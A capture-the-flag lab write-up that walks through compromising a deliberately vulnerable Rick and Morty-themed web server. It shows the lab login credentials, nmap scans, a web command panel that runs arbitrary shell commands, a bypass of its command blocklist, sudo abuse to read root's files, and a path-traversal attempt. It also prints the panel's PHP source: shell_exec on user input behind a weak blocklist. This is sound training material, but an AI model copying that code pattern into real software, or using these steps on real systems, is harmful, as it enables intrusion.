## Scenario

> This Rick and Morty-themed challenge requires you to exploit a web server and find three ingredients to help Rick make his potion and transform himself back into a human from a pickle.
> 
> Deploy the lab machine on this task and explore the web application: MACHINE_IP

Access via: `10.113.131.5`

## Initial Enumeration

### Viewing the Page Source

Landed on the target's root page, which greets the visitor with Rick asking for help turning him back from a pickle. 



Pressed `ctrl+u` to view the page source rather than relying on the rendered page, and found a username left in an HTML comment:



Given a username was sitting in the source, a login page seemed likely, so I appended `/login.php` to the URL and landed on a "Portal Login Page" asking for a username and password.



### Checking `robots.txt`

Checked `robots.txt` next, since it's a common place for developers to accidentally leave something behind:



That line looked like a password rather than a disallowed path, so I tried it alongside the username pulled from the comment.

### Logging In to the Portal

Logged in with `R1ckRul3s:Wubbalubbadubdub` and got into the portal. The site has five tabs: Commands, Potions, Creatures, Potions (again) and Beth Clone Notes. Every tab except Commands shows the same gif with the message "Only the **REAL** rick can view this page.." — so the only usable surface at this point is the Command Panel.





Before digging into the panel, I ran a couple of scans just to confirm there wasn't anything else exposed:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sudo nmap -p- 10.113.131.5
[sudo] password for —REDACTED—:
Starting Nmap 7.991 ( https://nmap.org ) at 2026-10-30 21:18 +0200
Nmap scan report for 10.113.131.5
Host is up (0.038s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 18.82 seconds
```

**Breakdown:**

- `sudo` runs the scan with root privileges, needed for some of nmap's lower-level scan types
- `nmap` invokes the scanner
- `-p-` scans the full TCP port range (1–65535), rather than nmap's default top-1000 ports
- `10.113.131.5` is the target

Only `22/tcp` (SSH) and `80/tcp` (HTTP) are open. Followed up with a version/script scan on the open ports to see what's actually running:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sudo nmap -p20,80 -sV -sC 10.113.131.5
Starting Nmap 7.991 ( https://nmap.org ) at 2026-10-30 21:19 +0200
Nmap scan report for 10.113.131.5
Host is up (0.037s latency).

PORT   STATE  SERVICE  VERSION
20/tcp closed ftp-data
80/tcp open   http     Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Rick is sup4r cool

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.03 seconds
```

**Breakdown:**

- `-p20,80` restricts the scan to ports 20 and 80 specifically (20 was a stray guess, it's closed)
- `-sV` probes open ports to determine service/version info
- `-sC` runs nmap's default set of safe enumeration scripts against the target

Nothing new beyond what the browser had already shown: Apache 2.4.41 on Ubuntu, page title "Rick is sup4r cool". Also ran `whatweb` for a quick fingerprint of the stack:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ whatweb http://10.113.131.5
http://10.113.131.5 [200 OK] Apache[2.4.41], Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.113.131.5], JQuery, Script, Title[Rick is sup4r cool]
```

**Breakdown:**

- `whatweb` fingerprints the web technologies in use on a target
- `http://10.113.131.5` is the target URL

Confirmed the same via Wappalyzer in the browser, which adds that the backend is PHP-driven (Bootstrap/jQuery frontend, Apache/Ubuntu backend):



None of this changed the plan — the Command Panel was still the way in.

## Gaining Code Execution

### Confirming Shell Access

Typed `whoami` into the Command Panel to see whether it was actually running commands or just decorative:

```
whoami

www-data
```

It returned `www-data`, confirming the Command Panel is a genuine shell.


### Checking `sudo` Privileges

```
sudo -l

Matching Defaults entries for www-data on ip-10-113-131-5:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-113-131-5:
    (ALL) NOPASSWD: ALL
```

**Breakdown:**

- `sudo` requests elevated privileges
- `-l` lists what the current user is permitted to run via sudo, without actually running anything

`www-data` can run anything as any user with no password prompt. That's a trivial root privesc, but the brief is to collect three ingredients first, so I held off on actually escalating and used `sudo` purely to read files the web user otherwise couldn't.

### Listing the Web Root

```
ls

Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```

`Sup3rS3cretPickl3Ingred.txt` and `clue.txt` stood out immediately as ingredient-related.



## What is the first ingredient that Rick needs?

Tried reading the file directly:

```
cat Sup3rS3cretPickl3Ingred.txt

</br><p><u>Command disabled</u> to make it hard for future PICKLEEEE RICCCKKKK.</p>
```



`sudo cat Sup3rS3cretPickl3Ingred.txt` gave the identical disabled-command response, so `sudo` doesn't bypass whatever's filtering the command string. Also tried `head`, `vi`, and `vim`, but they were also filtered.

Since the file sits in the Apache web root, there was no need to read it through the shell at all — it's just a static file Apache will serve directly:



**Answer:** `—REDACTED—`

## What is the second ingredient in Rick's potion?

`clue.txt` pointed at the rest of the filesystem:



Searched for anything with "ingredient" in the name:

```
sudo find / -name *ingredient* 2>/dev/null

/home/rick/second ingredients
```

**Breakdown:**

- `sudo` runs the search as root so permission-denied directories don't get skipped
- `find /` starts the search at the filesystem root
- `-name *ingredient*` matches any filename containing "ingredient"
- `2>/dev/null` discards stderr, so permission-denied noise from directories the user can't read doesn't clutter the output

That returned `/home/rick/second ingredients`. Tried listing it, assuming it might be a directory:

```
sudo ls "/home/rick/second ingredients"

/home/rick/second ingredients
```



This just echoed the same path back — a sign it's actually a file, not a directory (`ls` on a plain file just prints its name).

Tried reaching it via a path-traversal instead of the shell once more:

```
http://10.113.131.5/../../../../home/rick/second+ingredients
```

That failed, and switching the `+` to `%20` failed too. Dropped this approach and went back to the shell.

Went back to the shell and tried to find out exactly which commands the panel blocks, using `grep`with a single space as the search pattern — since nearly every non-empty line contains a space, this recursively dumps the raw contents of every file in the current directory, including PHP source that would otherwise just get executed and rendered if requested over HTTP:

```
grep -r " "
```

**Breakdown:**

- `grep` searches file contents for a pattern
- `-r` makes the search recursive through the current directory and subdirectories
- `" "` (a single space) matches virtually every line with content in it, turning this into a crude "dump everything" trick





Among the dumped output was `portal.php`'s own source, which exposed the filter:

```php
// Cant use cat
$cmds = array("cat", "head", "more", "tail", "nano", "vim", "vi");
if(isset($_POST["command"])) {
    if(contains($_POST["command"], $cmds)) {
        echo "</br><p><u>Command disabled</u> to make it hard for future <b>PICKLEEEE RICCCKKKK</b>.</p>";
    } else {
        $output = shell_exec($_POST["command"]);
        echo "</br><pre>$output</pre>";
    }
}
```

So the panel blocks `cat`, `head`, `more`, `tail`, `nano`, `vim` and `vi` by a simple substring match on the submitted command — and `less` isn't on the list:

```
less "/home/rick/second ingredients"

—REDACTED—
```

**Breakdown:**

- `less` is a pager, functionally similar to `cat` for a one-shot read but not on the blocklist
- `"/home/rick/second ingredients"` is the quoted path, quoting needed because the filename contains a space

**Answer:** `—REDACTED—`



## What is the last and final ingredient?

Tried a broad search for any text file on the system, assuming the third ingredient would also be named obviously:

```
sudo find / -type f -name "*.txt" 2>/dev/null
```

**Breakdown:**

- `-type f` restricts matches to regular files
- `-name "*.txt"` matches any filename ending in `.txt`

This returned far too many results across the whole filesystem to be useful (I'm too lazy to sift through the list carefully), so this was abandoned as the wrong approach — the earlier two ingredients weren't found by casting this wide a net, and there was no reason the third would be either.

Since the other tabs on the portal keep insisting only the "real" Rick (i.e. root) can see their content, it seemed worth checking root's home directory directly, given `sudo -l` had already shown full unrestricted `sudo`:

```
sudo ls /root

3rd.txt
snap
```

**Breakdown:**

- `sudo` runs the listing as root, required to read root's home directory
- `ls /root` lists root's home directory contents

`3rd.txt` was sitting right there:

```
sudo less /root/3rd.txt

3rd ingredients: —REDACTED—
```



**Answer:** `—REDACTED—`